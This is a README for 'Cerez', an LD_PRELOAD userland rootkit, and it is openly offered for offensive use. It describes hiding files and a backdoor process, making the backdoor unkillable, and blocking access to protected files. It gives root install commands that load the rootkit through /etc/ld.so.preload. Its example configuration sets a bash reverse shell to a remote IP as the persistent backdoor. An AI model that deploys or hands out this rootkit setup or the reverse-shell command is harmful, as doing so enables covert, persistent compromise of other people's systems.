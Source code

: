 <h1 align="center">
  <img src="assets/showcase.png"/>
  <br>
  Cerez 😈 Simple userland LD_PRELOAD rootkit
</h1>

Cerez is a configurable userland `LD_PRELOAD` rootkit, by installing it
into `/etc/ld.so.preload`, you can preload it before every binary.
It can protect/hide your backdoor as well other files you want
hidden. It does so by overwriting (g)libc functions such as `open`, `unlinkat` etc.

## Features
- ✔ Hides files in the file system
- ✔ Hides your backdoor in the process list
- ❌ Hides connections in the network list
- ✔ Makes your backdoor unkillable
- ✔ Makes files unaccessable

## Install
> [!Warning]
> Don't forget to edit `cerez.cfg` before install

### You will need to install `build-essential` and `libconfig` to compile!
You can install it with `apt` on debian based systems:
```bash
apt update && apt install build-essential libconfig-dev
```
You also may want to install git in order to obtain the source.

To compile the rootkit, run the following commands:
as **ROOT**:
```bash
git clone https://github.com/ngn13/cerez.git && cd cerez
make && make install
cd .. && rm -rf cerez
```
These commands will compile and install the rootkit and the configuration
to the system.

## Config (`/etc/cerez.cfg`)
Configuration is (really) simple, there are only 3 options:

- `backdoor`: Your backdoor command, this will be run by the rootkit everytime a program starts (if its not already running). Your
backdoor will be hidden in the process list. It will also be unkillable.
- `shell`: The shell that will be used to run the `backdoor` command.
- `hidden`: A list files that you want to hide and protect. These files will be hidden in directory listings and any attempt access
them will fail, and a fake file will be accessed instead.

Here is an example configuration:
```
backdoor = "bash -i >& /dev/tcp/<ip>/1234 0>&1"
shell = "/bin/bash"
hidden = (
  { path = "/etc/cerez.cfg" },
  { path = "/etc/ld.so.preload" },
  { path = "/path/to/your/super/secret/file" }
)
```
Note that after hiding `/etc/cerez.cfg` **you won't be able to access it unless you are running as the backdoor process**.

## Resources
To learn more about `LD_PRELOAD` rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5).
I also left some comments in the [loader.c](rootkit/loader.c) so you can go ahead and read it.

Also this is free (as in freedom) software! So feel free to fork and improve the project.
If you are interested, you can also contribute back to the project by creaint an issue or a pull request.
